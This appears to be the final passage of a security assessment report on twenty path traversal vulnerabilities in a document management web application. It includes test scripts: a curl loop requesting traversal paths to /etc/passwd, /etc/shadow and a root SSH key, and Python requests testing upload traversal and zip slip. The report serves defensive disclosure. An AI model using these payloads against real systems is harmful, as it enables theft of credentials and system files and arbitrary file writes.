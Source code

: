 
## Testing Methodology

### Automated Testing:
```bash
# Using curl for path traversal
for payload in "../../../../etc/passwd" "../../../../etc/shadow" "../../../../root/.ssh/id_rsa"; do
    curl -O "http://localhost:5003/api/download/$payload"
done

# Directory traversal enumeration
dirb http://localhost:5003/api/list_directory?dir= wordlist.txt
```

### Manual Verification:
```python
import requests

# Test upload path traversal
files = {'file': ('test.txt', b'malicious content')}
data = {'folder': '../../../../tmp/'}
r = requests.post('http://localhost:5003/api/upload', files=files, data=data)

# Test zip slip
with open('evil.zip', 'rb') as f:
    r = requests.post('http://localhost:5003/api/restore',
                     json={'backup_file': '../../../../tmp/evil.zip'})
```

---

## Conclusion

The Enterprise Document Management System contains **20 critical path traversal vulnerabilities** that completely compromise filesystem security. These vulnerabilities enable:

- **Arbitrary file read** - Including system files, credentials, source code
- **Arbitrary file write** - System configuration, backdoor installation
- **Arbitrary file deletion** - Potential system destruction
- **Command injection** - Remote code execution capability
- **Information disclosure** - Directory listings, path exposure

**Current State:** CRITICALLY INSECURE - No effective access controls on filesystem operations.

**Recommendation:** **IMMEDIATE SHUTDOWN AND REMEDIATION**. The application provides no security boundary between user input and filesystem operations. Complete redesign of file handling required.

---

**Report Classification:** CRITICAL - IMMEDIATE ACTION REQUIRED  
**Distribution:** Development Team, Security Team, CTO, CISO  
**Follow-up Required:** Emergency patch deployment within 24 hours  
**Retest Required:** Complete security assessment after remediation